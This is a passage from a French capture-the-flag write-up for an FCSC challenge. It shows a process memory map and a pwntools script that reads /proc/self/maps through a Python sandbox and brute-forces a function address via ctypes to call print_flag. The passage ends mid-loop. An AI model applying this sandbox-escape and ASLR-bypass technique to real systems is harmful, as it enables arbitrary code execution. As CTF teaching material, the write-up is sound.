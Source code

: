 ```python
7f49f4794000-7f49f49e8000 r-xp 00071000 09:03 16386021                   /usr/lib/x86_64-linux-gnu/libpython3.8.so.1.0
7f49f49e8000-7f49f4c01000 r--p 002c5000 09:03 16386021                   /usr/lib/x86_64-linux-gnu/libpython3.8.so.1.0
7f49f4c01000-7f49f4c07000 r--p 004dd000 09:03 16386021                   /usr/lib/x86_64-linux-gnu/libpython3.8.so.1.0
7f49f4c07000-7f49f4c4e000 rw-p 004e3000 09:03 16386021                   /usr/lib/x86_64-linux-gnu/libpython3.8.so.1.0
7f49f4c4e000-7f49f4c73000 rw-p 00000000 00:00 0
7f49f4c75000-7f49f4c76000 r--p 00000000 09:03 16384996                   /lib/x86_64-linux-gnu/ld-2.30.so
7f49f4c76000-7f49f4c94000 r-xp 00001000 09:03 16384996                   /lib/x86_64-linux-gnu/ld-2.30.so
7f49f4c94000-7f49f4c9c000 r--p 0001f000 09:03 16384996                   /lib/x86_64-linux-gnu/ld-2.30.so
7f49f4c9d000-7f49f4c9e000 r--p 00027000 09:03 16384996                   /lib/x86_64-linux-gnu/ld-2.30.so
7f49f4c9e000-7f49f4c9f000 rw-p 00028000 09:03 16384996                   /lib/x86_64-linux-gnu/ld-2.30.so
7f49f4c9f000-7f49f4ca0000 rw-p 00000000 00:00 0
7ffe9820d000-7ffe9822e000 rw-p 00000000 00:00 0                          [stack]
7ffe983da000-7ffe983dd000 r--p 00000000 00:00 0                          [vvar]
7ffe983dd000-7ffe983df000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

-------

#### Exploitation

Bingo `7f49f471f000-7f49f4720000 r-xp 00001000 09:03 16515501 /app/lib_flag.so`, on a son addresse.
Il nous reste juste à faire un script qui brutforce dans le range constant de `0x1000` l'addresse de `print_flag` par rapport à l'addresse de base de `lib_flag`.

```python
from pwn import remote

def send_command(cmd):
    r.readuntil(b'>>> ')
    r.sendline(cmd)
    pass

for i in range(4096):
    r = remote('challenges1.france-cybersecurity-challenge.fr', 4005)


    send_command('import ctypes')
    send_command('import sys')
    send_command('import codecs')

    send_command('f = ctypes.CFUNCTYPE(ctypes.c_void_p)')
    send_command("codecs.open('/proc/self/maps').read()")

    maps = r.readuntil(b'\\n\'')[1:-3].split(b'\\n')
    idx = [i for i, n in enumerate(maps) if b'r-xp' in n][10]
    base_addr = int(maps[idx][:12], 16)

    print("[+] base_addr:", hex(base_addr))

    send_command("d = f(0x%x)" % (base_addr + i))
    send_command("d()")
    try:
        res = r.readline(timeout=1)
        if b'FCSC' in res:
```